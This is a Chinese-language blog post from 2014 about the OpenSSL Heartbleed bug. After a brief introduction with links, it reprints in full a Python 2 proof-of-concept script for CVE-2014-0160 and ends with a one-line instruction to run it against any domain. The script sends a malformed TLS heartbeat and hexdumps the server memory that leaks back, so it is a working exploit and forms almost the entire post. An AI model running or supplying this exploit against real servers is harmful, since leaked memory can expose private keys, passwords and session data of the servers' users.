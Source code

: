 ```yaml
---
author: xljroy
comments: true
date: 2014-04-10 02:23:27+00:00
layout: post
slug: openssl-heartbleed-bug-exploit-demo
title: Openssl Heartbleed Bug Exploit Demo
wordpress_id: 292
categories:
- Hacker
---
```


关于这次的Heartbleed的具体消息请查看 [Heartbleed Bug](http://heartbleed.com/)

Github上的大神制作的测试网站是否收到这个漏洞影响的服务[Heartbleed test](http://filippo.io/Heartbleed/)

上面的信息已经很全了,我也不多说啦,直接放代码

    
    #!/usr/bin/python
    
    # Quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)
    # The author disclaims copyright to this source code.
    
    import sys
    import struct
    import socket
    import time
    import select
    import re
    from optparse import OptionParser
    
    options = OptionParser(usage='%prog server [options]', description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
    options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')
    
    def h2bin(x):
        return x.replace(' ', '').replace('\n', '').decode('hex')
    
    hello = h2bin('''
    16 03 02 00  dc 01 00 00 d8 03 02 53
    43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
    bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
    00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
    00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
    c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
    c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
    c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
    c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
    00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
    03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
    00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
    00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
    00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
    00 0f 00 01 01                                  
    ''')
    
    hb = h2bin(''' 
    18 03 02 00 03
    01 40 00
    ''')
    
    def hexdump(s):
        for b in xrange(0, len(s), 16):
            lin = [c for c in s[b : b + 16]]
            hxdat = ' '.join('%02X' % ord(c) for c in lin)
            pdat = ''.join((c if 32 <= ord(c) <= 126 else '.' )for c in lin)
            print '  %04x: %-48s %s' % (b, hxdat, pdat)
        print
    
    def recvall(s, length, timeout=5):
        endtime = time.time() + timeout
        rdata = ''
        remain = length
        while remain > 0:
            rtime = endtime - time.time() 
            if rtime < 0:
                return None
            r, w, e = select.select([s], [], [], 5)
            if s in r:
                data = s.recv(remain)
                # EOF?
                if not data:
                    return None
                rdata += data
                remain -= len(data)
        return rdata
    
    def recvmsg(s):
        hdr = recvall(s, 5)
        if hdr is None:
            print 'Unexpected EOF receiving record header - server closed connection'
            return None, None, None
        typ, ver, ln = struct.unpack('>BHH', hdr)
        pay = recvall(s, ln, 10)
        if pay is None:
            print 'Unexpected EOF receiving record payload - server closed connection'
            return None, None, None
        print ' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay))
        return typ, ver, pay
    
    def hit_hb(s):
        s.send(hb)
        while True:
            typ, ver, pay = recvmsg(s)
            if typ is None:
                print 'No heartbeat response received, server likely not vulnerable'
                return False
    
            if typ == 24:
                print 'Received heartbeat response:'
                hexdump(pay)
                if len(pay) > 3:
                    print 'WARNING: server returned more data than it should - server is vulnerable!'
                else:
                    print 'Server processed malformed heartbeat, but did not return any extra data.'
                return True
    
            if typ == 21:
                print 'Received alert:'
                hexdump(pay)
                print 'Server returned error, likely not vulnerable'
                return False
    
    def main():
        opts, args = options.parse_args()
        if len(args) < 1:
            options.print_help()
            return
    
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        print 'Connecting...'
        sys.stdout.flush()
        s.connect((args[0], opts.port))
        print 'Sending Client Hello...'
        sys.stdout.flush()
        s.send(hello)
        print 'Waiting for Server Hello...'
        sys.stdout.flush()
        while True:
            typ, ver, pay = recvmsg(s)
            if typ == None:
                print 'Server closed connection without sending Server Hello.'
                return
            # Look for server hello done message.
            if typ == 22 and ord(pay[0]) == 0x0E:
                break
    
        print 'Sending heartbeat request...'
        sys.stdout.flush()
        s.send(hb)
        hit_hb(s)
    
    if __name__ == '__main__':
        main()


具体使用方法:

python openssl.py XXX.com
